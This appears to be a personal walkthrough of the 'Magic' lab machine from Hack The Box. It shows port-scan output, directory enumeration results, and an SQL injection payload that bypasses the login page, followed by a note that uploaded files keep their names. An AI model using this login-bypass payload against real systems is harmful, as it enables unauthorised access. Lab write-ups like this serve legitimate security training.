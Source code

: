 # Scan

```bash
ghost@localhost [23:45:00] [~/Documents/hacking/tj-null-boxes/magic] [master]
-> % rustscan -a $IP -- -sC -sV

Open 10.10.10.185:22
Open 10.10.10.185:80

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 06d489bf51f7fc0cf9085e9763648dca (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQClcZO7AyXva0myXqRYz5xgxJ8ljSW1c6xX0vzHxP/Qy024qtSuDeQIRZGYsIR+kyje39aNw6HHxdz50XSBSEcauPLDWbIYLUMM+a0smh7/pRjfA+vqHxEp7e5l9H7Nbb1dzQesANxa1glKsEmKi1N8Yg0QHX0/FciFt1rdES9Y4b3I3gse2mSAfdNWn4ApnGnpy1tUbanZYdRtpvufqPWjzxUkFEnFIPrslKZoiQ+MLnp77DXfIm3PGjdhui0PBlkebTGbgo4+U44fniEweNJSkiaZW/CuKte0j/buSlBlnagzDl0meeT8EpBOPjk+F0v6Yr7heTuAZn75pO3l5RHX
|   256 11a69298ce3540c729094f6c2d74aa66 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOVyH7ButfnaTRJb0CdXzeCYFPEmm6nkSUd4d52dW6XybW9XjBanHE/FM4kZ7bJKFEOaLzF1lDizNQgiffGWWLQ=
|   256 7105991fa81b14d6038553f8788ecb88 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE0dM4nfekm9dJWdTux9TqCyCGtW5rbmHfh/4v3NtTU1
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Magic Portfolio
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


# 80

Found a login page at http://10.10.10.185/login.php.

I used Brupsuite to test SQL injection, and the following payload gives 302 redirect.

```SQL
username=admin' or 1=1 -- -&password=admin
```

I will redirected back to http://10.10.10.185/upload.php.

The file seems to be uploaded directly with no rename for the file.

http://10.10.10.185/images/uploads/chad.jpg

From Feroxbuster, I got following URLs.

```bash
301      GET        9l       28w      313c http://10.10.10.185/images => http://10.10.10.185/images/
200      GET       60l      207w     4054c http://10.10.10.185/
301      GET        9l       28w      313c http://10.10.10.185/assets => http://10.10.10.185/assets/
301      GET        9l       28w      321c http://10.10.10.185/images/uploads => http://10.10.10.185/images/uploads/
301      GET        9l       28w      317c http://10.10.10.185/assets/css => http://10.10.10.185/assets/css/
301      GET        9l       28w      316c http://10.10.10.185/assets/js => http://10.10.10.185/assets/js/
301      GET        9l       28w      313c http://10.10.10.185/images => http://10.10.10.185/images/
403      GET        9l       28w      277c http://10.10.10.185/.php
200      GET       60l      207w     4052c http://10.10.10.185/index.php
200      GET      118l      277w     4221c http://10.10.10.185/login.php
```